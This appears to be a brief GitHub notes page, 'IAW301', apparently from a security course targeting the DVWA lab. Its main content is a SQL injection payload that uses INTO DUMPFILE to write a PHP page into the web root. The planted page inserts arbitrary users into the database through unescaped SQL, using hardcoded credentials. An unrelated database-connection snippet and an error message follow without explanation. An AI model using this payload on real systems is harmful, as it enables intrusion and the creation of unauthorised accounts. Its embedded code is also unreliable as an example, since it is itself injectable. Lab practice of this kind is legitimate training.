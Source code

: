 # IAW301
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name = $_POST["first_name"]; $last_name = $_POST["last_name"]; $username = $_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo "first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username: $username<BR>"; echo "avatar: $avatar<BR>"; $con=mysqli_connect("127.0.0.1","minhlqhe140825","bnm123456","dvwa"); if (mysqli_connect_errno()) { echo "Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected to database<BR>"; } $password = "abc123"; $sql="insert into dvwa.users values (\\"$userID\\",\\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Error creating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post" action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID" value="33"><br> <input type="text" name="first_name" value="John"><br> <input type="text" name="last_name" value="Gray"><br> <input type="text" name="username" value="jgray"><br> <input type="text" name="avatar" value="Just Hack It!"><br> <input type="submit" name="submit" value="Submit Form"><br> </form>' INTO DUMPFILE '/var/www/html/dvwa/create_user.php' -- -

<?php
    mysqli_connect("localhost", "root", "", "GFG");
 
    if(mysqli_connect_error())
        echo "Connection Error.";
    else
        echo "Database Connection Successfully.";
?>

mysqli_connect(): (HY000/1045): Access denied for user
